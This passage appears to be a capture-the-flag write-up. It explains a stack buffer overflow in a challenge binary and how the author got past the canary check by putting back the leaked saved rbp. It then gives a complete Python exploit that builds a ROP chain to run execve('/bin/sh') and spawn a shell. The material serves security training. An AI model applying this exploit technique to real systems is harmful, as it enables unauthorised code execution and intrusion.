 ```c
        puts("");
    }
    puts("finish");
}

__attribute__((constructor))
void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    alarm(60);
}
```
In `main` function, it had a buffer overflow bug that allows an attacker to overwrite the stack without any limit.
According to the `checksec` , the program has stack canary. However, I couldn't find any stuff likes canary, so I did debug and I realized that if saved rbp was not changed, overflow was not detected. Saved rbp can be fetched from output of the program, so I inserted saved rbp in front of ROP chain.
```python
#!/home/ryohz/.pyenv/shims/python

import ptrlib as ptr


def unwrap(x):
    if x is None:
        ptr.logger.error("failed to unwrap")
        exit(1)
    else:
        return x


elf = ptr.ELF("./chall")
io = ptr.Process(elf.filepath)

io.recvuntil(b"========+===================")
io.recvline()
io.recvline()
io.recvline()

rbp = int(io.recvline().split(b" | ")[1].strip(b"  <- saved rbp"), 16)
ptr.logger.info(f"rbp: {hex(rbp)}")

payload = b"A" * 16
payload += ptr.p64(rbp)
payload += ptr.p64(next(elf.gadget("pop rdx; ret;")))
payload += b"/bin/sh\x00"
payload += ptr.p64(next(elf.gadget("pop rax; ret;")))
payload += ptr.p64(0x4BD000)
payload += ptr.p64(next(elf.gadget("mov [rax], rdx; pop rbx; ret;")))
payload += b"AAAAAAAA"
payload += ptr.p64(next(elf.gadget("pop rdi; ret;")))
payload += ptr.p64(0x4BD000)
payload += ptr.p64(next(elf.gadget("pop rsi; ret;")))
payload += ptr.p64(0)
payload += ptr.p64(next(elf.gadget("pop rdx; ret;")))
payload += ptr.p64(0)
payload += ptr.p64(next(elf.gadget("pop rax; ret;")))
payload += ptr.p64(0x3b)
payload += ptr.p64(next(elf.gadget("syscall; ret;")))

io.sendline(payload)
io.recvuntil(b"finish")
```